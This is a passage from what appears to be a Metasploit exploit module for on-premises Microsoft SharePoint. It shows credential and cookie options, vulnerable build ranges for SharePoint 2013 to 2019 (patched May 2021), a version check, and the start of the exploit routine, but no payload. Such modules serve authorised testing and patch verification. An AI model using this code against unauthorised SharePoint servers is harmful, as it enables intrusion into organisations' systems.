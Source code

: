       def post_auth?
        true
      end

      def username
        datastore['HttpUsername']
      end

      def password
        datastore['HttpPassword']
      end

      def cookie
        datastore['COOKIE']
      end

      def vuln_builds
        # https://docs.microsoft.com/en-us/officeupdates/sharepoint-updates
        # https://buildnumbers.wordpress.com/sharepoint/
        # Patched in May of 2021
        [
          [Rex::Version.new('15.0.0.0'), Rex::Version.new('15.0.0.5337')], # SharePoint 2013
          [Rex::Version.new('16.0.0.0'), Rex::Version.new('16.0.0.5149')], # SharePoint 2016
          [Rex::Version.new('16.0.0.10000'), Rex::Version.new('16.0.0.10373')] # SharePoint 2019
        ]
      end

      def check
        build = sharepoint_get_version('cookie' => cookie)

        if build.nil?
          return CheckCode::Unknown('Failed to retrieve the SharePoint version number')
        end

        if vuln_builds.any? { |build_range| build.between?(*build_range) }
          return CheckCode::Appears("SharePoint #{build} is a vulnerable build.")
        end

        CheckCode::Safe("SharePoint #{build} is not a vulnerable build.")
      end

      def exploit
        if (username.blank? && password.blank?)
          if cookie.blank?
            fail_with(Failure::BadConfig, 'HttpUsername and HttpPassword or COOKIE are required for exploitation')
          end

          print_warning('Using the specified COOKIE for authentication')
        end

